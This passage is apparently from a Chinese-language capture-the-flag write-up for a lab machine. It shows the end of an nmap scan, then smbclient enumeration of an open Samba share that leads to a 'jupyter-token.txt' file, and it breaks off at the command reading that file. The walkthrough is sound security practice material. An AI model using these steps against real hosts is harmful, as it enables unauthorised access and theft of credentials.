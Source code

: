 ```bash=
|   Check 2 (port 21907/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 22310/udp): CLEAN (Failed to receive data)
|   Check 4 (port 22306/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 09:18
Completed NSE at 09:18, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 09:18
Completed NSE at 09:18, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 09:18
Completed NSE at 09:18, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.68 seconds
           Raw packets sent: 7 (308B) | Rcvd: 7 (308B)
```

## Exploit

他有開 445 port，對應到 samba ，用 smbclient 列列看有哪些目錄

![image](https://hackmd.io/_uploads/rJnHu8MDle.png)

之後去讀 `datasci-team` 這個資料夾裡面的東西，然後一個一個把它 get 下來

![image](https://hackmd.io/_uploads/rJJddUfwgx.png)

在 `misc` 這個資料夾找到 `jupyter-token.txt`

```bash=
┌──(kali㉿kali)-[~/thm]
└─$ smbclient //10.10.10.36/datasci-team 
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls 
  .                                   D        0  Thu Aug 25 11:27:02 2022
  ..                                  D        0  Thu Aug 25 11:27:02 2022
  .ipynb_checkpoints                 DA        0  Thu Aug 25 11:26:47 2022
  Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv      A      146  Thu Aug 25 11:26:46 2022
  misc                               DA        0  Thu Aug 25 11:26:47 2022
  MPE63-3_745-757.pdf                 A   414804  Thu Aug 25 11:26:46 2022
  papers                             DA        0  Thu Aug 25 11:26:47 2022
  pics                               DA        0  Thu Aug 25 11:26:47 2022
  requirements.txt                    A       12  Thu Aug 25 11:26:46 2022
  weasel.ipynb                        A     4308  Thu Aug 25 11:26:46 2022
  weasel.txt                          A       51  Thu Aug 25 11:26:46 2022

                15587583 blocks of size 4096. 8918797 blocks available
smb: \> cd misc
smb: \misc\> ls
  .                                  DA        0  Thu Aug 25 11:26:47 2022
  ..                                 DA        0  Thu Aug 25 11:26:47 2022
  jupyter-token.txt                   A       52  Thu Aug 25 11:26:47 2022

                15587583 blocks of size 4096. 8926011 blocks available
smb: \misc\> 


┌──(kali㉿kali)-[~/thm]
└─$ cat jupyter-token.txt 
```